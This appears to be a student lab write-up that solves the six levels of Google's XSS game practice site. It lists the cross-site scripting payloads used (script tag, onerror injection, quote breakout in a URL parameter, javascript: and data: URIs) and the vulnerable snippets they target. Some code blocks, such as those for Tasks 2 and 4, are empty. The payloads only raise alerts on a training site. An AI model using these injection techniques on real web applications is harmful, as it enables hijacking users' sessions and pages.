# SI-Lab3
**Task:** XSS vulnerability exploiting.

**Example used:** https://xss-game.appspot.com

###Task 1



```javascript
<script>alert('hello xss')</script>
```



###Task 2



```javascript

```



###Task 3

The vulnerability was at inputting an image which doesn't exist.



```javascript
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "";
        $('#tabContent').html(html);
```

In the Address bar

```
https://xss-game.appspot.com/level3/frame#4'onerror="javascript:alert('hello xss3')"
```



###Task 4



Vulnerability found on

```

```

And with the help of https://www.w3schools.com/tags/ref_urlencode.asp HTML URL encoding i was able to inject code in javascript

```
https://xss-game.appspot.com/level4/frame?timer=')%3Balert('hello Xsss4')%3Bvar b=('
```



###Task 5



Vulnerability found on 

```javascript
<script>
  setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
```

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('hello xss4')
```

And by pressing next now it will alert with our notification.



###Task 6



I exploited the vulnerability of data uri meaning the way we create http requests for files

```
https://xss-game.appspot.com/level6/frame#data:javascript,alert('hello xss6')
```



